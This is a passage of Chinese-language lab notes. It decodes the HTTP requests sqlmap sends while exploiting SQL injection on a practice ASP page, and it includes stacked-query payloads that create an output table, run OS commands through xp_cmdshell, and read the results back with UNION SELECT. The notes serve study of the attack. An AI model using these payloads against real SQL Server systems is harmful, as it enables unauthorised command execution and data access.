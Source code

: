 ?id=1;<span data-type="text" style="color: var(--b3-font-color8);">create table sqlmapoutput</span>(<span data-type="text" style="color: var(--b3-font-color11);">id int primary key identity, data nvarchar(4000)</span>)--

<span data-type="text" style="color: var(--b3-font-color8);">create table sqlmapoutput</span>()  创建表名字为<span data-type="text" style="color: var(--b3-font-color8);">sqlmapoutput</span>

<span data-type="text" style="color: var(--b3-font-color11);">id int primary key identity, data nvarchar(4000)</span>  ： 字段 id、int 类型、自增、主键；字段data、nvarchar类型、最多存储4000字符；

4. ‍

```sql
GET /less-2.asp?id=1%3BDECLARE%20%40fyps%20VARCHAR%288000%29%3BSET%20%40fyps%3D0x6563686f2031%3BINSERT%20INTO%20sqlmapoutput%28data%29%20EXEC%20master..xp_cmdshell%20%40fyps-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

解码为：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @fyps VARCHAR(8000);</span><span data-type="text" style="color: var(--b3-font-color11);">SET @fyps=0x6563686f2031;</span><span data-type="text" style="color: var(--b3-font-color6);">INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @fyps</span>--

解析：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">declare@fyps varchar(8000)</span><span data-type="text" style="color: var(--b3-font-color11);">;set@fyps=echo 1</span>;<span data-type="text" style="color: var(--b3-font-color6);">insert into sqlmapoutput(data) exec master..xp_cmdshell @fyps</span>--

<span data-type="text" style="color: var(--b3-font-color8);">declare@fyps varchar(8000)</span>  `DECLARE`​ 是一个关键字，用于声明局部变量，创建一个名为`@fyps`​的变量，数据类型为`VARCHAR`​，长度为8000个字符。

<span data-type="text" style="color: var(--b3-font-color11);">SET @fyps=0x6563686f2031;</span>  将`@fyps`​变量的值设置为一个十六进制字符串`0x6563686f2031`​  字符串为[`echo 1`]()​

<span data-type="text" style="color: var(--b3-font-color6);">insert into sqlmapoutput(data) exec master..xp_cmdshell @fyps</span>    `xp_cmdshell`​​是SQL Server的一个扩展存储过程，<span data-type="text" style="color: var(--b3-font-color8);">允许执行操作系统命令</span>。将`@fyps`​变量中的命令（即`echo 1`​）作为系统命令来执行。将命令的<span data-type="text" style="color: var(--b3-font-color8);">输出</span>插入到名为`sqlmapoutput`​的表的`data`​列中。

5. ‍

```sql
GET /less-2.asp?id=-9017%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28120%29%2BCHAR%28107%29%2BCHAR%28122%29%2BCHAR%28113%29%2BISNULL%28CAST%28COUNT%28data%29%20AS%20VARCHAR%284000%29%29%2CCHAR%2832%29%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%2898%29%2BCHAR%2898%29%2BCHAR%28113%29%2CNULL%2CNULL%20FROM%20sqlmapoutput--%20HLnQ HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```
